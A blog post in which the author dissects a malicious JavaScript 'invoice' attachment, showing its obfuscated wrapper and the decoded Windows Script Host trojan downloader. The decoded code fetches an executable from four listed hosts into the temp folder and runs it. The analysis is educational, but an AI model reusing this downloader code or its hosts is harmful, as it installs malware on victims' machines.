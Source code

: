 ```yaml
---
layout: post
title: Sick use of technology
categories: [tech]
tags: []
published: True

---
```


So my abandoned email address was recently spammed with a lot of "invoices" that I did not pay. Each "invoice" is a JavaScript file that looks like this:

{% highlight js %}
var UdpJBNrcsNApR=[];for(wNNrUTG=(-840+840)/419;wNNrUTG<(14733+499)/119;wNNrUTG++){UdpJBNrcsNApR[wNNrUTG]=String.fromCharCode(wNNrUTG)}function TRbfH(RnyFtbnscoR,dWlUzxYAmCDrq,jVSHyhVl){kfgB=parseInt(RnyFtbnscoR,dWlUzxYAmCDrq);uPvuf=kfgB.toString(jVSHyhVl);return uPvuf;}function IMnKyzGDgNtoqZM(eOQyFMPlBvYVXxifI){eval(eOQyFMPlBvYVXxifI)}
function oZoKVfOEBCbxruazhlJtnbYbWKFGMLHLFDNOOzbjFzuRQgZSDRgeOD(SPERYSHJTIwby,glflOEANqFOpXF){ return UdpJBNrcsNApR[TRbfH(SPERYSHJTIwby[glflOEANqFOpXF],(7234+266)/750,(6206+74)/628)];}
function CvSBklu(dUsMXWkKxnPhKSBcKMDAWNJQlOJlNNSXeTrj) {return !isNaN(parseFloat(dUsMXWkKxnPhKSBcKMDAWNJQlOJlNNSXeTrj)) && isFinite(dUsMXWkKxnPhKSBcKMDAWNJQlOJlNNSXeTrj);}
function asPGOqPoyQe(UfzlDOUG,WYuyuu){return UfzlDOUG.split(WYuyuu)}
var T=[];T.push("13");T.push("10");T.push("13");T.push("10");T.push("118");T.push("97");T.push("114");T.push("32");T.push("76");T.push("32");T.push("61");T.push("32");T.push("34");T.push("112");T.push("114");T.push("101");T.push("115");T.push("116");T.push("97");T.push("107");T.push("105");T.push("116");T.push("99");T.push("104");T.push("101");T.push("110");T.push("46");T.push("99");T.push("111");T.push("109");T.push("47");T.push("119");T.push("112");T.push("45");T.push("105");T.push("110");T.push("99");T.push("108");T.push("117");T.push("100");T.push("101");T.push("115");T.push("47");T.push("112");T.push("111");T.push("109");T.push("111");T.push("47");T.push("56");T.push("53");T.push("46");T.push("101");T.push("120");T.push("101");T.push("63");T.push("32");T.push("97");T.push("99");T.push("115");T.push("98");T.push("114");T.push("111");T.push("107");T.push("101");T.push("114");T.push("97");T.push("103");T.push("101");T.push("46");T.push("99");T.push("111");T.push("109");T.push("47");T.push("99");T.push("115");T.push("115");T.push("47");T.push("102");T.push("111");T.push("110");T.push("116");T.push("115");T.push("47");T.push("95");T.push("95");T.push("112");T.push("97");T.push("103");T.push("101");T.push("115");T.push("95");T.push("115");T.push("111");T.push("117");T.push("114");T.push("99");T.push("101");T.push("115");T.push("47");T.push("56");T.push("53");T.push("46");T.push("101");T.push("120");T.push("101");T.push("63");T.push("32");T.push("97");T.push("98");T.push("111");T.push("117");

... and the array push continues ...

var yuWIy=[T,s];
var NLfSHoSCV=[];
function AwRUQXgZdYewyfjsL(yuWIy){BJgJYCcnDpy= '';for(WbcrWHNJlUX=(-133+133)/1; WbcrWHNJlUX < (1174+444)/809; WbcrWHNJlUX++) {NLfSHoSCV[WbcrWHNJlUX]=(-484+484)/81; while(true) { if(NLfSHoSCV[WbcrWHNJlUX] > yuWIy[WbcrWHNJlUX].length-(-159+260)/101) { break; } if (CvSBklu(TRbfH(yuWIy[WbcrWHNJlUX][NLfSHoSCV[WbcrWHNJlUX]],(2917+733)/365,(4380+170)/455))) {BJgJYCcnDpy += oZoKVfOEBCbxruazhlJtnbYbWKFGMLHLFDNOOzbjFzuRQgZSDRgeOD([yuWIy[WbcrWHNJlUX][NLfSHoSCV[WbcrWHNJlUX]]], (-214+214)/308);} NLfSHoSCV[WbcrWHNJlUX]++;}} return BJgJYCcnDpy}
IMnKyzGDgNtoqZM(AwRUQXgZdYewyfjsL(yuWIy));
{% endhighlight %}

Since I love the JavaScript language and I used to be a huge, huge fan of viruses and antivirus software in middle school, I immediately realized that my CS background in university has finally prepared me to deeply dive into these codes and find out why they are malicious.

## Beautify the uglified

So the massive `array.push` seems like it's building a string from ASCII characters. However, I really need to first use a [beautifier](http://jsbeautifier.org/) to properly indent the code.

The part after all the array pushes looks like this:

{% highlight js %}
function AwRUQXgZdYewyfjsL(yuWIy) {
    BJgJYCcnDpy = '';
    for (WbcrWHNJlUX = (-133 + 133) / 1; WbcrWHNJlUX < (1174 + 444) / 809; WbcrWHNJlUX++) {
        NLfSHoSCV[WbcrWHNJlUX] = (-484 + 484) / 81;
        while (true) {
            if (NLfSHoSCV[WbcrWHNJlUX] > yuWIy[WbcrWHNJlUX].length - (-159 + 260) / 101) {
                break;
            }
            if (CvSBklu(TRbfH(yuWIy[WbcrWHNJlUX][NLfSHoSCV[WbcrWHNJlUX]], (2917 + 733) / 365, (4380 + 170) / 455))) {
                BJgJYCcnDpy += oZoKVfOEBCbxruazhlJtnbYbWKFGMLHLFDNOOzbjFzuRQgZSDRgeOD([yuWIy[WbcrWHNJlUX][NLfSHoSCV[WbcrWHNJlUX]]], (-214 + 214) / 308);
            }
            NLfSHoSCV[WbcrWHNJlUX]++;
        }
    }
    return BJgJYCcnDpy
}

IMnKyzGDgNtoqZM(AwRUQXgZdYewyfjsL(yuWIy));
{% endhighlight %}

Here I am particularly interested in the last line. The `IMnKyzGDgNtoqZM` function takes a parameter, and then calls `eval(param)`. That's all it does. So I guess it's building a string that's another JavaScript code, and everything above is likely safe until I actually evaluate it.

## Let's run it

### ... only if you know what you're doing.###

So I did, because I know I'm safe if I don't run the last line, and running everything above will reveal the secrets in the array. The parameter passed into the obfuscated `eval` function looks like this:

{% highlight js linenos %}
var L = "prestakitchen.com/wp-includes/pomo/85.exe? acsbrokerage.com/css/fonts/__pages_sources/85.exe? aboutacquisitions.com/wp-includes/theme-compat/85.exe? 46.151.52.197/85.exe?".split(" ");
var GHs =((1/*rGiz542702596n847085uM354193eOiZ*/)?"WScri":"")+"pt.Shell";
var uI = WScript.CreateObject(GHs);
var Ht = "%TEMP%\\";
var Cms = uI.ExpandEnvironmentStrings(Ht);
var nsz = "2.XMLH";
var Rhg = nsz + "TTP";
var qt = true  , Napl = "ADOD";
var Qi = WScript.CreateObject("MS"+"XML"+(315275, Rhg));
var Jeu = WScript.CreateObject(Napl + "B.St"+(356233, "ream"));
var nUm = 0;
var Y = 1;
var cfvnksE = 937547;
for (var d=nUm; d<L.length; d++)  {
  var rG = 0;
  try  {
    poi = "GET";     
    Qi.open(poi,"http://"+L[d]+Y, false); Qi.send(); if (Qi.status == 359-159)  {
      Jeu.open(); Jeu.type = 1; Jeu.write(Qi.responseBody); if (Jeu.size > 2356-787)  {
        rG = 1; Jeu.position = 0; Jeu.saveToFile/*AV6k708QWx*/(Cms/*3JJG480PaV*/+cfvnksE+".exe",4-2); try  {
          if (((new Date())>0,7918092888)) {
            uI./*d747795OAiR*/Run(Cms+cfvnksE+/*b04z77lSpO*/".exe",/*uda163ArdM*/3-2,0); 
            break;
          }
        }
        catch (Ua)  {
        }; 
      }; Jeu.close(); 
    }; 
    if (rG == 1)  {
      nUm = d; break; 
    }; 
  }
  catch (Ua)  { 
  }; 
}; 
{% endhighlight %}

## So what is this?

As you can see, the first line is creating an array in a fairly interesting way. The content? Oh wow, it's an array of 4 links to an exe file! Without reading further I'd know this is one of the `Trojan Downloaders` that I encountered before, which really remind me of my middle school fun life with these things in the sandbox (oh yeah). 

And the fact that it's using `WScript` can't be more familiar - almost all antivirus software alerting me of a trojan downloader will say something about [WScript](https://support.microsoft.com/en-us/kb/232211). I guess it's like a Bash script for linux, except this is in Windows - because JavaScript alone won't download the file and execute it on your behalf. 

It is also very fun to read line 2, 21 and 22. Line 2 and 22 are the essential parts of the downloading and executing process, they are constructing the WScript, and running the exe file. It's interesting because there are random comments inserted between the important parts, like the `Run` method call and the exe file name. Line 2 even uses a `?:` operator where the condition always evaluates to true. Line 21 is creating a new `Date` object and compares it to 0 (which is always true), and then added a comma and a number, which does nothing. All of these little tricks is trying to bypass the antivirus scan, and even I can see it's really amateur. I highly doubt this method will trick the so-called **signature-based detection** - which is the reason you update your antivirus software. Not to mention even in my middle school time, the behaviour-based **proactive defense** technique was already standard. Not to mention further that the actuall exe might be killed right away, and technically this JavaScript file is not a virus itself. 

## Please write good software

As the Chinese saying says, "A evil person is more dangerous when he is knowledgable". As an ambitious software engineer, I hope people stop writing this kind of software. Put your knowledge in good use. To the author of this code, although you look like a newbie (lol), you must have some talent to write all these, therefore I wouldn't believe you could only get some income in this way. We create softwares to make our lives easier, not the other way around. 
